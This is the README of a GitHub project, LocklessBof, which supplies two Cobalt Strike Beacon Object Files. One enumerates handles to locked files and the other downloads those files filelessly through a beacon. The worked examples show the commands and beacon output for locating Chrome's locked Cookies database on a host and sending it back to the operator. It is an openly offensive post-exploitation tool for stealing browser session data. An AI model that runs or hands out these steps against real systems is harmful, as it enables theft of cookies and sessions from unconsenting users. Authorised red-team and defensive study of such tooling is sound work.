 # LocklessBof
A Beacon Object File (BOF) implementation of [Lockless](https://github.com/GhostPack/Lockless) by [HarmJ0y](https://github.com/HarmJ0y), designed to enumerate open file handles and facilitate the fileless download of locked files. Within this project, you'll find two BOFs: LocklessEnum and LocklessDownload.

## LocklessEnum
LocklessEnum can be used to enumerate open file handles to a locked file. Upon detecting an open file handle, LocklessEnum supplies the user with information including the associated Process ID (PID) and the handle ID, which can then be supplied as input to LocklessDownload to download the locked file. 
### LocklessEnum Usage
```
Usage: lockless-enum <filename> <processname>
Example: 
   lockless-enum Cookies 
   lockless-enum Cookies Chrome
lockless- Enum Options: 
    <filename> -    (Required): The locked file's name.
    <processname> - (Optional): Narrow handle enumeration to the specified process. A partial name match is allowed (e.g., 'chro' for 'chrome')
```
## LocklessDownload
LocklessDownload can be used to download locked files. LocklessDownload requires the Process ID of the target process containing the open file handle, along with either the handle ID of the open file handle for the target file, or the filename to be downloaded. 
### LocklessDownload Usage
```
Usage: lockless-download <pid> <key> <value>
Example: 
   lockless-download 789 filename Cookies 
   lockless-download 789 handle_id 696
lockless-download Options: 
    <pid> -     (Required): Process ID (PID) of the target application, queried for handles to desired locked file
    <key> -     (Required): This can either be 'filename' or 'handle_id'
    <value> -   (Required): If 'filename' is chosen, provide the full name of the file to be downloaded. The filename is case sensitive
                            If 'handle_id' is chosen, provide the handle ID to the locked file to be downloaded
```
## Example
Find out which process has a handle to the locked "Cookies" file and retrieve the handles id:
```
beacon> lockless-enum Cookies
[+] host called home, sent: 6088 bytes
[+] received output:
Attempting to enumerate handle to file Cookies from  processes
[+] received output:
Process ID 2940 [Handle ID 1092] - Cookies [\Device\HarddiskVolume3\Users\defaultuser\AppData\Local\Google\Chrome\User Data\Profile 1\Network\Cookies]
```
Download the locked "Cookies" file using the identified pid and handle id
```
beacon> lockless-download 2940 handle_id 1092
[+] host called home, sent: 8796 bytes
[+] received output:
Attempting file download using handle_id 1092 from Process ID 2940
[+] received output:
Found file handle!
[+] received output:
File size is 524288

[*] started download of Cookies (524288 bytes)
[*] download of Cookies is complete
[+] received output:
Downloaded file Cookies from process ID: 2940
```
Download the locked "Cookies" file using the file name
```
beacon> lockless-download 2940 filename Cookies
[+] host called home, sent: 8810 bytes
[+] received output:
Attempting file download of filename Cookies from Process ID 2940
[+] received output:
Found file handle!
[+] received output:
File size is 524288

[*] started download of Cookies (524288 bytes)
[*] download of Cookies is complete
[+] received output:
Downloaded file Cookies from process ID: 2940
```
## References
[ProcessListHandles](https://github.com/trustedsec/CS-Remote-OPs-BOF/tree/main/Remote/ProcessListHandles) by [TrustedSec](https://github.com/trustedsec)  
[Lockless](https://github.com/GhostPack/Lockless) by [HarmJ0y](https://github.com/HarmJ0y)  
[Fileless download](https://github.com/fortra/nanodump) by [Fortra](https://github.com/fortra)  
